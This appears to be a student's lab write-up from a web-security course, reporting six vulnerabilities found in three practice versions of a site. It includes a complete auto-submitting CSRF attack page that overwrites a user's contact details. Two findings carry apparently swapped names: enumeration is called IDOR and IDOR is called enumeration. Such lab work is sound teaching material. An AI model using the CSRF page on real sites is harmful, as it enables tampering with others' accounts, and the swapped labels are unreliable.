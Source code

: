 # Project 8 - Pentesting Live Targets

Time spent: **4** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: Session Hijacking
- We login to the compromised website with packet interception on. Inspecting the packet reveals that the sessionid field is visible as plaintext in Burp Suite. This session id is copied as is and pasted in a new window in a different browser. The user is logged in automatically without the need to enter credentials.

![ ](Week8_Attack1.gif)


Vulnerability #2: Cross-Site Scripting (XSS)
- The feedback form page text entry box can be used to inject javascripts. These javascripts run when the user logs in and checks the received feedbacks.
![ ](Week8_Attack2.gif)


## Green

Vulnerability #1: SQL Injection
- Sales Person information was up for grabs due to lack of SQL Input Sanitation as seen below:
![ ](Week8_Attack3.gif)


Vulnerability #2: IDOR
- When trying to log in with a username not in the system, the Login Unsuccessful text displayed is normally, but when trying to do the same with a user that has an account in the system, the text is displayed as bold.
![ ](Week8_Attack4.gif)



## Red

Vulnerability #1: User Enumeration
- The URL of the details of the Salesperson's information shows simple numerical sequencing to find user information. This can be used to find data of users, even the ones that are not listed on the page.
![ ](Week8_Attack5.gif)


Vulnerability #2: CSRF
- The feedback form is used to show a mailicious link to the user. If the user follows the link, the data in the website is altered from the HTML Code:
```<!DOCTYPE html>
		<html>
	<head>
		<title>Your Feedback</title>
		<script src="https://code.jquery.com/jquery-3.2.1.min.js"></script>
	</head>
	<body>

		<p> you should secure your site</p>
		<style>
		.hide-form {
			display: none;
		}
		</style>
		<form action="https://35.184.88.145/red/public/staff/salespeople/edit.php?id=2" method="POST" class="hide-form" id="attackform"  name="form">
			<input type="text" name="first_name" value="Sherry Hacked" /><br />
			<input type="text" name="last_name" value="Trevino Hacked" /><br />
			<input type="text" name="phone" value="282-191-111" /><br />
			<input type="text" name="email" value="hacked@hacked.com" /><br />
		</form>
		<script>
		$(function() {
			console.log("loaded");
			window.document.forms[0].submit(function(e) {


				console.log("submitted");
			});
		});
		</script>
</html>
```
![ ](Week8_Attack6.gif)
